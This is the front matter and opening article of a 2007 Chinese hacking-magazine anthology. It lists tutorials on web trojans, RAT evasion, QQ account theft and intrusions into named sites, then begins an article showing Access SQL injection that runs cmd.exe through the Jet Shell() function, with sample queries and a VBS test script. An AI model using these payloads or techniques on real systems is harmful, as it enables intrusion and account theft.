# 黑客防线2007精华本（下）

---

# 黑客防线 2007 精华奉献本（下册）

《黑客防线》编辑部 编

- 直通极限？入侵绝术？
- 深究黑客事件绝密内幕！
- 直击网络？DDOS杀招？
- 盘点大威力黑客兵器谱！
- 挑战Sohu？盗窃网页？
- 聚焦门户网络安全评估！
- 搜索真相？黑客学院？
- 让黑客软件从此再无忧！

人民邮电出版社  
POSTS & TELECOM PRESS  
北京

## 内容提要

《黑客防线2007精华奉献本》是国内最早创刊的网络安全类媒体之一《黑客防线》总第61期到第72期的精华文章摘要，杂志理念“在攻与防的对立统一中寻求突破”完美地体现在本书中。全书按攻防对立的关系，分为上、下两册（本册为下册），并附带2张包含1200MB安全技术录像的光盘。收录的文章通俗易懂、图文并茂，在每个关键知识点和细节上还有详细的“小知识”“小提示”，方便大家理解和阅读。在栏目划分上，选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻防、漏洞攻防、黑器攻防等，同时选取国内首创的“溢出研究”栏目中的精品文章，非常适合各层次读者学习。

本书适合各高校在校生、网络管理员、安全公司从业者、黑客技术爱好者阅读。

- 《黑客防线》总编：孙彬
- 《黑客防线》执行主编：吴田峰
- 《黑客防线》编辑策划：李志华、黄婷
- 《黑客防线》技术支持：hacker@hacker.com.cn
- 《黑客防线》网址：http://www.hacker.com.cn

## 致读者

黑客一词，源于英文 Hacker，原指热心于计算机技术、水平高超的电脑专家，尤其是程序设计人员，他们发现系统漏洞和各种程序错误，并设法修补这样的漏洞。从原来的定义来说，黑客无疑是网络中最让人觉得神秘且崇高的人群。但世界上没有绝对好的东西，黑客也是这样。信息高科技时代的到来，给人类各方面发展都带来了前所未有的巨大进步，但同时也带来了前所未有的巨大灾难。黑客这一神秘群体，由于掌握了核心的技术、最有破坏力的漏洞，所以渐渐分离出来两个部分，一部分是为网络安全而奉献精力的真正黑客，而另一部分是在网络上为所欲为，拥有强大破坏力，行踪神秘的 Cracker！

我国互联网业界风起云涌，网络从最初的新奇，到今弥散到人们的日常生活，它改变了传统的信息消费渠道，抢占了新闻受众、影响着大众舆情……面对汹涌而来的信息浪潮，网络的脆弱性也在经受着无数黑客、Cracker 的一次次考验和打击。面对这样的转变，为了向广大网友普及网络安全常识，提高网络管理员的技术水平，《黑客防线》应运而生——一本崭新的集网络安全专业技术、专业资讯为一体的专业杂志面世了。

作为中国最早的网络安全类杂志之一，已经历了6年的风风雨雨。一直以“在攻与防的对立统一中寻求突破”为理念的我们，在普及网络安全知识的同时，针对网络上黑客攻击事件、网络漏洞等方面策划出最快、最新、最权威的技术文章奉献给大家。同时也以为“黑客”正名为己任，告诉我们的每个读者什么是真正的黑客，什么是黑客精神，什么是 Cracker。

在黑客防线成长的过程中，通过我们不断推出的攻防实验室，非常多的朋友学习到了很多实用的网络安全攻击、防御知识，虽然不可避免地存在一些缺陷，但我们一直在积极地听取大家的意见，希望能更适合大家的要求；同时，很高兴地看到大家通过实验室而让技术水平得到提高，而且每个朋友的成长几乎都能带动周围一圈人意识的改变，这才真正地体现出了“攻防对立统一”的精髓。

眼下互联网上的攻击事件越来越多，各大网络管理员、系统维护者都在为入侵防护而头疼，生怕自己一不小心就让虎视眈眈的“黑客”进入了服务器。其实管理员们根本没必要这样担惊受怕。要知道任何攻击技术都不是万能的，每种入侵方法都有它自己针对的漏洞，如果网管们能掌握这样的攻击技术，本身就是一名出色的善意“入侵者”，那在知己知彼的情况下，防护不就变得非常简单了吗？这也是《黑客防线》一直倡导的“在攻与防的对立统一中寻求突破”理念的最终体现。

我们的攻防实验室就是为了深入这一理念而开展活动的，希望每个喜欢入侵技术、每个喜欢安全技术的朋友都能在我们的实验室中学到自己需要的知识。在此之前，根据各读者的强烈建议，我们特别精选了200篇经典攻防技术文章，收集了200个全程演示的攻防录像，融合在《<黑客防线>2007精华奉献本》里，以便喜欢黑客技术的朋友们系统地学习最新的网络安全技能，做好最强的防护系统。

最后，我们再次感谢广大读者对我们的支持，感谢人民邮电出版社同我们的合作，使更多读者可以看到我们的图书，让国内更多的人了解到黑客技术，并借此来提高国内网络安全的整体水平。

读者有任何疑问可以来我们论坛发帖讨论，地址是 http://www.hacker.com.cn/newbbs，我们的编辑和黑客爱好者们将在第一时间为您答疑，帮助您解决安全故障和系统防护问题，共同创造一片纯净的中国互联网空间！

## 黑客防线2007精华奉献本 光盘目录

### A区攻防教程目录

- 经典黑客工具教程
- 过SP2网页木马简单制作肉鸡成群
- 准备的工具：网页生成器，免杀的鸽子，一个空间或者你手上拿到的WebShell。
- 恐怖木马教程
- 过SP2不弹窗网页制作+怎样挂马
- 现在网上好多网页生成器，但个人感觉没什么好用的，并且还有窗口弹出！看着不爽！下面来做一个好用并且不弹出窗口的网页木马！
- 半完美打造Radmin
- 动易2006拿WebShell
- 我在各大论坛看见很多朋友不会拿WebShell，今天我就给大家做一个拿动易2006 WebShell的方法，准备数据库木马和动易2006系统。
- 一句话木马后门隐藏插入技巧
- 一般的插入方法会导致页面浏览时出现错误，那么怎么避免这种情况呢？把一句话木马插进空函数里，在浏览的时候，就不会有错误显示了！
- 真正过SP2免杀网马
- 现在网上看到很多的说网马不过SP2补丁，而我今天要做的是SP2过免杀补丁和全系统网马。
- 详解135端口入侵及获得大量肉鸡
- 今天给广大新手朋友做一个利用135端口抓大量肉鸡的教程，如果熟练掌握，每天几百台肉鸡不在话下。
- 最新挂马入侵网站
- 这只是一个入侵网站的思路，大家可以利用这种方法攻破很多同类型的网站。
- 过SP2网马生成器的原理与制作
- 现在好多人说没有好用的网马生成器，前两天我的网马更新了一次，这次决定把过SP2网马生成器的原理告诉给大家。
- 图片木马的简单制作
- 用BT和POCO和PP点点通传木马
- 利用DameWare无痕入侵
- 今天我给大家带来一个利用DameWare入侵自己一个网段的动画，类似抓3389肉鸡。
- 终极制作网页木马
- 做过SP2全补丁免杀不弹网马。
- 自己电脑挂马
- 需软件：花生壳，花生壳客户端，IIS安装文件。
- 更多类传播网马
- 为大家介绍几种QQ的传播网马技巧。
- 利用科迈内网服务让黑洞和鸽子内网上线
- 黑洞在局域网内上线的语音视频教程
- 终身免杀网马制作全过程
- 需要两个工具：1.免杀的下载者；2.免杀过的网马。
- 制作DOC木马
- 一点就中木马
- 用Email发木马，只要人家打开邮件就会中的马。
- 流莺的配置和上线
- 详细的制网页木马+挂马
- 今天做一个用WebShell制网页木马的教程，需要工具：网站猎手1.5版，QQ木马（你可以改你喜欢的木马。）
- 菜鸟抓肉鸡-网页挂马
- 入侵实战精华盘点
- 入侵传奇私服宣传网
- 入侵检测互联网星空
- 破动网论坛用户密码
- 小榕溢“雪痕动网论坛用户密码”。
- 入侵网站实例
- 在视频网站挂马。
- FTP提权
- 在得到Serv-U的FTP账号时，拥有了系统权限，但是不能执行CMD，我们该怎么办呢？
- 韩国A区权限三种方法拿下
- 肉鸡简单抓
- 新招入侵六合彩网站
- NOWSHOP商城系统拿WebShell
- 用到的工具：网站猎手，ASP木马。
- 入侵日本网站实例操作（php）
- 入侵Dvbbs7.1
- 注意版本是Dvbbs 7.1 SQL版本，首先注册ID然后登录，注意挖 key inXcel 替换！
- 最新入侵传奇SF教程
- 现在很多传奇网站基本上都用的是无忧传奇整站，可以在百度搜 inurl:Msmir_DownLoads/msmir_net.mdb，破解管理员密码。
- 入侵B2B电子商务网站。
- 灰鸽子经典视频
- 灰鸽子双FTP上线加免杀
- 工具：黑防灰鸽子，北斗3.7，Restorator，黑防免杀。
- 灰鸽子双FTP上线加免杀是在同一台主机，原有一个FTP上线的基础上，再加上另一个备用FTP上线。
- 灰鸽子语音教程
- 灰鸽子在网吧（内网）上线的语音教程。
- 鸽子系列视频
- S扫描器+内网映射+配置鸽子上线。
- 灰鸽子全攻略
- 黑防鸽子自动上线
- 不用更新IP或用花生壳，无论你在哪里都可以上线成功，不过必须是公网，内网比较麻烦。
- 又一种内网鸽子上线
- 现在很多人问我科迈还能不能用，已经不能了，红猫也不行了，那唯一的方法就是映射了，用到的工具：MYUPnP。
- 黑防鸽子多域名或空间同时上线

今天我来给大家做个黑防鸽子公网多个域名或空间同时上线的教程，因为是语音教程就不多打字了。今天有个朋友说他的FTP常常不能用，更新不了IP，今天我就做不用更新IP的教程。

- 扫描映射——鸽子上线
- 不用更新FTP照样让黑防鸽子上线
- 完全搞定灰鸽子
- 网吧鸽子上线
- 用鸽子刷业绩网通业务
- 用鸽子刷山东网通业务，绕过插件刷业务
- 灰鸽子配置和内网上线
- 内网鸽子配置使用教程

### 安全配置精华视频

手动快速查杀灰鸽子。大家都知道这灰鸽子，都深知它的作用，你是否担心自己的电脑中了灰鸽子木马呢？

- 防黑入侵动画
- 菜鸟构建PHP+MYSQL黑客论坛
- 菜鸟做网站之IIS篇（上）
- 菜鸟做网站之IIS篇（下）
- 识别QQ木马教程
- 架设IIS服务器
- 快速修补SQL漏洞
- 关于注射点修补教程
- 黑客徒手大封杀
- 防止别人Telnet You
- 挂截网页木马
- 打造安全的个人计算机
- 关闭服务和端口设置
- 不用杀毒软件防马
- 打造安全级别较高的BT论坛

大家好，我是Noangel，这几天一直在研究权限设置和一些别的安全设置，有点体会，下面我想做一个关于设置一个安全的论坛做例子，希望大家看了会有点体会，好东西一起分享。

### 系统安全设置终结教程

- 巧用系统权限防病毒
- 巧用系统权限防病毒动画教程
- XP系统终极优化
- XP系统终极优化 and 加速启动。

### QQ攻防与QQ服务（联网访问）

- QQ大盗
- 地主QQ大盗全能版
- 批量盗取网吧QQ
- 简单刷QQ业务
- 最新刷QQ会员三钻
- QQ游戏刷分动画
- 彻底粉碎QQ盗号者的阴谋
- QQ木马专杀工具
- 用盗来的QQ再盗QQ
- Sniffer抓盗QQ者
- 变态QQ秀动画教程
- 批量加QQ群
- QQ号注册码
- QQ强行加别人为好友

### 黑防鸽子专题（联网访问）

- 黑防灰鸽子教程
- 灰鸽子配置详细版
- 灰鸽子自动上线教程
- 另类鸽子上线的方法
- 灰鸽子2006脱壳
- 教你鸽子母鸡生小鸡
- 鸽子免杀教程
- 灰鸽子专杀器
- 灰鸽子专用清除器
- 分离灰鸽子后门捆绑程序
- 伪装壳灰鸽子万能文件捆绑器
- 5分钟打造免杀鸽子服务端
- 黑防鸽子的隐藏
- EPS定律脱鸽子2006壳

### B岛目录

- 入侵思维训练视频
- 入侵百度
- 入侵百度的视频演示，针对假冒入侵事件。
- 入侵163你也会
- 同样的假冒入侵演示。
- 另类搞入侵
- 入侵要做到无孔不入，什么数据库啊，后台啊，默认密码，能检测的全部检测了！
- 利用抓包拿WebShell
- 没有备份数据库的时候怎么入侵？
- 多工具入侵
- 端口定位+多工具入侵=大量肉鸡。
- 动力上传漏洞动画
- 工具党：1.挖掘机，2.明小子扫描工具。
- 135端口的入侵
- 串端不到FTP空间怎么给135肉鸡种马？
- IPC入侵获得大量肉鸡教程
- 外部提交拿WebShell
- CTI资讯网相关入侵演示
- 入侵人家电脑擦屁股教程
- 工具 cleanlogs.exe（语音教程）
- 4899入侵详解
- 从僵尸兔杀到玫瑰花生壳自助建站
- Serv-u6.2本地提权动画
- 远程王控制肉鸡的教程
- 在大网站发现的小漏洞
- 17173的小BUG
- 详细入侵3389端口的教程

### QQ实用攻防视频

- 如何看到QQ好友是否隐身
- 利用的工具是迷你QQ
- 免费打电话还有机会得Q币
- QQ空间种马
- 利用QQ空间，让浏览者不知不觉就中马。

### 盗QQ超详细过程

- 攻击别人QQ
- 发条消息让别人死机。
- 盗号
- 盗QQ号实例。
- 免费的QQ 3D秀
- 如何获得免费的QQ 3D秀。
- QQ被盗后反盗取收信邮箱
- QQ被盗？不要紧，我们来破他的QQ邮箱！
- 最快速盗号
- 盗Q木马免杀100%中招
- 免杀用怒剑狂花做的，效果很好。
- 不盗ADSL抢大家刷三钻和QQ秀
- 朋友照这种方法刷了几个华钻了！
- 指定IP盗QQ——非暴力破解
- 盗指定IP的QQ号密码。
- 灰鸽子破五位QQ密保
- 灰鸽子破五位QQ密保，非申诉。
- 盗五位六位QQ
- 盗五位六位QQ的方法演示。
- 手机号码解绑QQ
- 史无前例超简单拿手机号码解绑定QQ服务。
- 盗号王教程
- 啊啦QQ大盗ASP收信地址破解
- 用到的工具：Minisniffer。
- 1分钟盗QQ教程
- 破QQ相册密码
- 破QQ相册密码+下载wma歌曲。

### 脱壳视频汇总

- 脱FSG 1.33变形壳
- 手工脱壳制作注册机
- 随意脱PC Shrinker的壳
- 重点在单步调试和无条件跳转。
- 利用SFX脱FSG的壳
- 载入后直接停在OEP处，选项->SFX->字符串关键跟踪
- 跟踪真实入口，载入目标程序，稍微等几秒钟就可以了！
- 改代码脱壳
- Winkript 1.0 -> Mr. Crimson/WKT，这种壳很少见。
- 零点起教你脱壳
- 零点起教你脱壳并裸奔跑跑卡丁车的外挂。
- 脱ASPack壳教程
- 用到的软件有：OllyDbg和PEiD
- 用OllyDbg脱上兴远程控制V3.6的壳
- 工具：OllyDbg，上兴远程控制V3.6。
- 教你脱多层壳
- 手动脱壳——QQ保镖
- 手脱黑站避开器
- 手动脱壳——灰鸽子专杀器
- 手动脱壳Domain3.5
- 所需工具：OllyDbg.exe，PEiD1.exe。
- 脱土手其捆绑器
- 脱土手其捆绑器DIY个人版的壳。
- 轻轻松松脱遍天下无敌壳

### 软件破解实例视频

破解瑞星2006密码保护。简单明了的破解方法，仅供测试，支持国产软件。

### 破解双色球精算师

- 破解双色球精算师退出注册码，并写内存注册机。
- 破解注册内网查看工具
- 破解CMD加密
- 破解征途黑手
- 破解征途黑手木马程序。
- 100%破解RAR、ZIP、ACC密码
- 功能：轻松破解RAR、ZIP、ACC密码，如果你忘记了密码，正在苦恼的话，那么请观看此教程。
- 客户王软件破解
- 针对重启验证类型的破解。
- 破解写补丁
- 软件是很多教学都用的，不说废话现在开始。
- 霸王大陆木马破解修复
- 把这个马的后门去掉，并且把它修复，使之为我们所用。
- 简单破解软件
- 教你如何汉化卡巴斯基6.0
- 很多人拿到卡巴斯基6.0的汉化包后，根本不会使用。给大家做一个汉化卡巴斯基6.0的教程。
- 5招解决猫跳
- 用ESP定律脱。
- 暴力破解软件
- 软件爆破教程
- 暴力破解软件
- 针对图片格式转换工具的破解。

### 黑防精品免费视频资源（联网访问）

- 鸽子免杀让卡巴（最新版）
- 网页木马的制作
- 万象加钱的动画
- 非技术木马传播总结
- VB制作电脑DOS命令运行器
- 用Delphi写游戏木马
- 免费发短信
- 弹窗木马刷流量
- 打造自己专用流氓软件
- 简单入侵免费空间
- 打造漂亮的CMD命令行
- 100%成功设置QQ代理
- QQ无需加好友直接聊天
- QQ传播你的木马
- 不用任何工具让你的QQ永不被盗

### 黑防精品VIP视频资源（联网访问）

- 用VMI挂马
- 挂马新方法
- 通过互联星空刷QB
- MS06040+鸽子使用教程
- 百度搜索你是我的红娘
- 梦幻木马使用教程
- 入侵7code中国官方网站
- 木马网络特征分析
- QB、游戏点卡免费拿
- 万人资料是这样泄漏的
- 刷QQ业务
- DIY制作个性安装程序
- 黑防VIP脱壳系列
- 服务器安全配置与管理系列教程
- Windows网络攻防系列教程

## 《黑客防线》2007精华奉献本 目录（下册）

### 首发漏洞

- 瞬间拿下系统权限——Access新式漏洞利用 …… 1
- VIP会员学习成果展 Windows图形渲染引擎WMF格式代码执行漏洞 …… 3
- 动易2005再暴最新漏洞 …… 5
- 保护反被保护误——桃源网盘新漏洞 …… 9
- 零点CMS最新漏洞 …… 11
- 层层剖析94KKBBS官方的众多漏洞 …… 14
- 秒杀的乐趣——一分钟搞定流光文章系统 …… 18
- 隐藏变量的危害——2s_Blog实现注入漏洞 …… 22
- 用Metasploit Framework体验MS06-040 …… 25
- 细数具有“中国特色”的搜索引擎漏洞——利用搜索引擎挂马的艺术 …… 26
- 从调试MS06-057细谈IE漏洞的分析及利用 …… 31
- 通过系统权限法清理DLL木马 …… 34

### 特别专题

- 再破百度验证码！——AI的艺术 …… 35
- 渗透盛大网络 …… 37
- 揭穿网银在线支付漏洞的骗局 …… 40
- PHPWind跨站、注入双重漏洞 …… 43
- PHP注入搞定Sohu.com …… 46
- 手工入侵上海交通大学 …… 48
- 刷票 …… 53
- 渗透台湾大学 …… 55
- 实用入侵检测案例——写在学校服务器入侵之后 …… 58
- 深入浅出MS06-040 …… 62
- 利用VML漏洞挂马 …… 70

### 漏洞攻防

- SYBASE数据库安全机制浅谈 …… 71
- 互联网时代的技术宠儿｜搜索引擎排名优化技术 …… 73
- 让硬件入侵不再是神话 …… 74

## 精华奉献本目录 / CONTENTS

- COCOON在线文件管理器上传漏洞 …… 79
- CMD终极防守的破灭 …… 80
- 华大OA系统文件下载漏洞 …… 81
- VIP会员学习成果展 MDaemon WebAdmin配置漏洞分析 …… 82
- 天网Maze漏洞报告 …… 84
- 动易跨站漏洞入侵中国泥客联盟 …… 85
- 巧用Ability FTP Server新漏洞入侵科旗数码站 …… 86
- BT下载：肉鸡的温床 …… 88
- 沸腾新闻又现漏洞 …… 89
- 天网BuG分析 …… 90
- 从eBay钓鱼邮件想到的 …… 91
- 卡巴斯基也是系统杀手 …… 94
- QQ登录过程底层分析 …… 96
- 别让“黑客”乱花你的钱 …… 98
- 在线破解MD5网站一览 …… 99
- 揭穿虚假QQ中奖信息的骗局 …… 101
- VIP会员学习成果展 追踪网络勒索者 …… 102
- 桃源网盘Cookie欺骗漏洞 …… 104
- BBSXP最新漏洞及发现过程 …… 105
- 上传漏洞的形成 …… 107
- 浅析注入漏洞的查与补 …… 110
- VIP会员学习成果展 拿什么拯救你？互联星空 …… 112
- 考研成绩修改的骗局 …… 113
- 利用G6FTP实现Windows 2003提权 …… 115
- VIP会员学习成果展 由Foxmail开始的入侵 …… 117
- VIP会员学习成果展 让网页来得更猛烈些吧！ …… 119
- 渗透美国Microsoft内部网络 …… 120
- 中国黑客联盟的论坛漏洞 …… 123
- 最新动网论坛漏洞解析 …… 124
- 从ExBlog 1.5看PHP注入的闪光 …… 125
- 利用硬件VPN渗透内网 …… 128
- VIP会员学习成果展 你所不知的新反动网挂马方法 …… 130
- 条形码也玩HACK …… 131
- 都是Cookie惹的祸——浅析飞天论坛漏洞 …… 132
- 网易手机图片铃声任你下 …… 136
- VIP会员学习成果展 千元显卡，轻松到手 …… 137
- 拿下合租服务器 …… 138
- 黑客与网警的较量 …… 140
- OBlog2.52再现文件删除漏洞 …… 142
- 没有NET命令也要玩入侵 …… 144
- 轻松获取江民通行证密码 …… 147
- 再谈刷票 …… 147
- 永久免疫动网漏洞 …… 148
- 深度剖析DIV BLOG 0.6安全性 …… 149
- VIP会员学习成果展：炸弹归来之手机噩梦 …… 152
- PHPWind跨站注入漏洞之我见 …… 153
- Serv-U 6.3的另类攻防 …… 154
- 中招—分析—追杀—个人电脑攻防战 …… 156
- 2007年网络攻击新潮——Ajax Hacking …… 158
- 再次挖掘中国博客网跨站漏洞 …… 161
- 渗透北京航空航天大学 …… 163
- Baidu Hack智取WebShell …… 166
- 从百度空间到中国博客漏洞 …… 169
- 万人资料是这样泄漏的 …… 172
- 多思路入侵企业网站 …… 173
- PPPoE，在安全的边缘徘徊 …… 174
- 快速溢出IE新漏洞 …… 178
- 用组策略跟踪用户访问共享目录行为 …… 180

## 挑战式攻防

- C#站点攻防战 …… 181
- Ofstar论坛得WebShell清除日志全攻略 …… 183
- 另类“注入”我来谈 …… 185
- 防注入程序不防注 …… 187
- L-BLOG再现提权漏洞 …… 188
- 桃源网络硬盘官方网站第三个漏洞 …… 190
- Resin入侵之旅 …… 192
- 巧用Perl完成Windows 2003提权 …… 194
- VIP会员学习成果展 后台上传WebShell再出奇招 …… 195
- Cookie注入的精彩——浅析雪人论坛修改版漏洞 …… 197
- 纯脚本颠覆CNKI数字图书馆 …… 200
- 对.mt某学院的一次渗透 …… 202
- 反其道而行之：ASP备份成图片 …… 204
- 三大挑战：入侵校园网流量计费系统 …… 206
- 爆料劫网——最新跨站攻击漏洞 …… 209
- 让DVBBS和BBSXP帮我拿Shell …… 212
- SQL Injection in EXE …… 213
- 利用第三方插件入侵劫网论坛 …… 214
- 利用上传组件漏洞攻破主站 …… 216
- 利用在线文件管理器漏洞获得WebShell …… 217
- 利用网络验证码解还原卡 …… 218
- 小议一句话后门的防范 …… 220
- 渗透华夏主站 …… 221
- 手机的危机——透过联通网站查看用户隐私 …… 223
- 小议XML木马 …… 224
- 兵马未动，粮草先行 …… 225
- 瞬间让你的服务器负载100% …… 226

## 精华奉献目录

- 对AppServ的安全测试 …… 227
- VIP会员学习成果展 入侵重庆某中学 …… 229
- 用肉鸡代理我也要抓到你 …… 231
- 浅谈伪造数据库后门的两种方法 …… 234
- 老漏洞新利用——三步攻破胡兵全球互动网 …… 235
- PHP注入广东医学院 …… 236
- 设计人生留言系统的漏洞及修补 …… 237
- 商业网站管理平台的三个上传漏洞 …… 242
- 巧施社会工程学 拿下个人免费空间 …… 243
- VIP会员学习成果展 入侵铁路资讯网 …… 245
- 小试差异备份 …… 246
- Guo's Blog最新提权漏洞 …… 247
- “雷霆”FLASH数据库江湖社区 …… 249
- SQL通用防注入探索 …… 252
- 轻松获得电脑报的WebShell …… 253
- 入侵“西安搜狐” …… 254
- VIP会员学习成果展 实战PHP旁注加提权 …… 255
- 快速入侵网站，就这么简单——浅谈SA用户权限的安全隐患 …… 257
- 从风讯CMS开始的入侵 …… 258
- VIP会员学习成果展 另类获取网络电视直播地址 …… 260
- 入侵新云官方站点——最新新云系统漏洞解析 …… 261
- 对SOHU的再次安全测试 …… 266
- 花香盈路整站漏洞再现 …… 268
- WSockExpert拿WebShell新方法 …… 270
- PK国内大型娱乐网站——东趣网 …… 271
- SQL Injection With CGI——Ultra Threads论坛最新漏洞 …… 273
- VIP会员学习成果展 入侵浪人下载系统 …… 275
- 踏在前人一句话木马的肩膀上前进 …… 276
- 另类破解让收费电话免费打 …… 278
- 防止密码MD5值被破解妙招 …… 279

## 溢出研究

- 菜鸟版Exploit编写指南之十九：溢出漏洞扫描技术 …… 280
- 菜鸟版Exploit编写指南之二十：Word溢出漏洞分析与利用 …… 283
- 菜鸟版Exploit编写指南之二十一：Windows堆栈溢出全面解析 …… 288
- ShellCode自动化提取的设计与实现 …… 290
- 菜鸟版Exploit编写指南之二十二：能够生成木马的ShellCode …… 292
- 菜鸟版Exploit编写指南之二十三：Excel溢出漏洞分析+利用 …… 294
- 菜鸟版Exploit编写指南之二十四：再谈Down&Exec的ShellCode …… 297
- 菜鸟版Exploit编写指南之二十五：编写Word木马的ShellCode …… 299
- 菜鸟版Exploit编写指南之二十六：不死的ShellCode …… 301
- 菜鸟版Exploit编写指南之二十七：从分析MS06-040谈Metasploit攻击代码提取 …… 303
- 菜鸟版Exploit编写指南之二十八：堆栈溢出点定位原理分析 …… 306
- 菜鸟版Exploit编写指南之二十九：亲密接触MS06-055 …… 309

适合读者：系统安全爱好者，网站管理员

前置知识：ASP+Access基础

## 跨国拿下系统权限

### Access新式漏洞利用

> WTF。在2006年的首次漏洞里，高手提到关于Access的新式漏洞利用方式。以前一直未当回事的东西，一旦被发掘又威力无穷。大伙看到后可要注意了，新的攻击方式可能出现，需做好安全设置。

现在的脚本注入攻击技术，常用手法很多，最普通的是利用子查询或者Union联合查询来获取特殊表中的内容（如Admin、Log等）。MSSQL的入侵方法更多样复杂，拿到高权限注入点后可借助扩展执行命令、读取文件、改注册表；低权限时也可通过差异备份、跑数据库密码等方式进行直接或间接攻击。类似Oracle、MySQL、DB2等数据库也有执行命令、导出文件、读取文件等攻击手法。

以上是常见数据库攻击方式概述。Access较“鸡肋”：难直接获取表名与字段名，可利用语法较少，不支持多语句SQL，且与标准SQL有差异，常见仅Insert、Update、Select、Delete、Produce等封装调用。但仍值得研究。

本文参考了nsfocus、xFocus早年文档以及SuperHei关于Access的测试文章，可在www.4ngel.net等站点查询。

回顾Windows 2000时期多个脚本漏洞公告（如cateloy_type.asp远程注入、Msadcss.dll漏洞等），其利用方式与本文讨论有相通处。以cateloy_type.asp注入为例，代码问题如下。

```sql
select * from cateloy where type='" & Request("Type") & "'
```

这是一个低级注入漏洞，直接将Type值拼入SQL查询，未过滤恶意输入。

我们查看这篇漏洞资料的利用方式，其中涉及一个SQL语句：

```sql
Select * from Sometable where somefield='|Select Shell("cmd.exe /c dir")|'
```

资料称Access允许通过特殊函数触发命令执行，相关还有cudir、Command等函数。可在Access中测试如下SQL：

```sql
Select Shell("cmd.exe /c dir c:\ > c:\kevin.txt")
```

回C盘观察到kevin.txt，说明语句执行成功。随后转到脚本中测试，编写VBS脚本：

```vb
Set Conn=Createobject("Adodb.Connection")
Conn.Open "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=kevinS4T.mdb"
Set Rs=Conn.execute("Select Shell(\"cmd.exe /c dir c:\\ > c:\\kevin.txt\")")
Msgbox Rs(0)
```

结果出乎意料：报错“表达式中的'Shell'函数未定义”，如图1、图2所示。





### 首发漏洞  
FIRST EXPLOIT

现在我们需要安静下来喝杯咖啡，然后思考：为什么同样的语句在不同的执行者间会出现如此截然不同的问题呢？一个能正常执行，而另外一个则是找不到函数。试想微软一定在其中某处设置了一个开关。为了安全起见，MS在Jet引擎的SP8中设置了一个名为SandBoxMode的开关，默认是2。微软关于这个键值的介绍为：0为在任何所有者中都禁止启用安全设置，1为仅在允许的范围之内，2则是必须是Access的模式下，3则是完全开启（连Access也不支持）。

那么好吧，我们来看看如果将值变为0会怎样。改变值为0后，运行VBS时，出现的情况是一组数字返回，再在C盘下查看文件，果然看到了我们的kevin.txt。如图3所示。很神奇吧！原来Access也是可以执行命令的，在实际方面会怎样呢？

